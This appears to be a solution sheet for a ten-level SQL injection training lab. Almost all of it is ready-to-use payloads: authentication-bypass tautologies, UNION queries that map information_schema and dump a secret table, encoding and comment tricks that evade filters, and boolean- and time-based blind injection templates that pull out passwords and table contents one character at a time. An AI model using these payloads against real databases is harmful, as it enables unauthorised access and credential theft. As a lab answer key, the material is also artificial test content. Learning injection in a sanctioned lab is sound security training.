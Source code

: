 - 'X' is what you need to replace.

**LEVEL 1**

```
SELECT * FROM users WHERE id = 12;
```

**LEVEL 2**

```
' or id = 9 #
```

**LEVEL 3**

```
' or id = 13 #
```

**LEVEL 4**

```
' UNION SELECT column_name, '-', '-' FROM information_schema.columns WHERE table_name='secret' #

' UNION SELECT f1, f2, ggg FROM secret WHERE ggg = 'abc' #
```

**LEVEL 5**

```
' UNION SELECT column_name, '-', '-' FROM information_schema.columns WHERE table_name='secret' #

' UNION SELECT dfgfddfgdfdfdf, dfgdfgfdg, '-' FROM secret #
```

**LEVEL 6**

CHAR(103,111,100) => 'god'

```
-1 or login = CHAR(103,111,100)
```

0x676f64 => in HEX (UTF-8: "god")

```
-1 or login = 0x676f64
```

**LEVEL 7**

```
-1/**/OR/**/login/**/REGEXP/**/0x67656e746f6f/**/
```

**LEVEL 8**

```
-1 OR login = 'fast'
```

To find length of the password:

```
-1 OR (login = 'fast' AND LENGTH(pass) = X)
```

To find value of the password:

```
-1 OR (login = 'fast' AND SUBSTRING(pass, X, 1) = 'X')
```

**LEVEL 9**

To find length of the login:

```
-1 OR (id = XX AND LENGTH(login) = X)
```

To find value of the login (way 1):

```
-1 OR (id = XX AND login = 'XXX')
```

To find value of the login (way 2):

```
-1 OR (id = XX AND SUBSTRING(login, X, 1) = 'X')
```

**LEVEL 10**

Prove that this is Time Based SQL injection:

```
1 AND SLEEP(5)
```

Find table name (and length of it's name):

```
IF(LENGTH((SELECT table_name FROM information_schema.tables WHERE table_schema = database() LIMIT 1)) = X, SLEEP(5), 0)

IF(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema = database() LIMIT 1), X, 1) = 'X', SLEEP(5), 0)
```

Find number of columns and their names:

```
IF((SELECT COUNT(*) FROM information_schema.columns WHERE table_name = 'davidblayne' AND table_schema=database()) = X, SLEEP(5), 0)

IF(LENGTH((SELECT column_name FROM information_schema.columns WHERE table_name='davidblayne' AND table_schema=database() LIMIT X, 1)) = X, SLEEP(5), 0)

IF(SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_schema=database() AND table_name='davidblayne' LIMIT X, 1), X, 1) = 'X', SLEEP(5), 0)
```

Find value in the column:

```
IF(SUBSTRING((SELECT morkovka FROM davidblayne LIMIT 1), X, 1) = 'X', SLEEP(5), 0)
```

